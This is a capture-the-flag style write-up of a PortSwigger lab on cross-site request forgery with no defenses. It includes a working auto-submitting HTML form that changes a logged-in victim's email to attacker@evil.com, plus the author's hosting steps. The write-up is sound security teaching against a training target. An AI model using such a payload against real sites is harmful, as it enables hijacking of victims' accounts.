 # CSRF vulnerability with no defenses | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-no-defenses), you'll learn: CSRF vulnerability with no defenses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214234716.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214234744.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214234752.png)

In here, we can update our email address!

**Let's use Burp Suite to intercept the request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214235015.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221214235052.png)

When we click the `Update email` button, it'll send a POST request to `/my-account/change-email` with the parameter `email`.

**However, there is no CSRF token to prevent other website to send the same request!**

**To exploit this CSRF vulnerbility, we can craft a web page that automatically send the same request!**

**Let's inspect how this website construct the form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

**Armed with above information, we can craft a form that perform the same request:**
```html
<html>
	<head>
		<title>CSRF-1</title>
	</head>
	<body>
		<form action="https://0a3700ea032ba1d8c2ef1284006800d3.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

**To host this page, I'll use python's module `http.server`:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/CSRF/CSRF-1]
└─# python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, we can test it locally.

**If we go to `http://localhost/index.html`, it'll automatically send a POST request to `https://0a3700ea032ba1d8c2ef1284006800d3.web-security-academy.net/my-account/change-email` with the parameter `email`, and it's value is `attacker@evil.com`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215000245.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215000257.png)

It works, as we have the session cookie and that endpoint doesn't have any CSRF protections!!

**To change other users' email, we can use PortSwigger Lab's exploit server:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001415.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001503.png)

**Copy and paste our payload to `Body` and click `Store`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001711.png)

**Finally, we can click the `Deliver exploit to victim` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001751.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-1/images/Pasted%20image%2020221215001810.png)

And we successfully changed a user's email address!

# What we've learned:

1. CSRF vulnerability with no defenses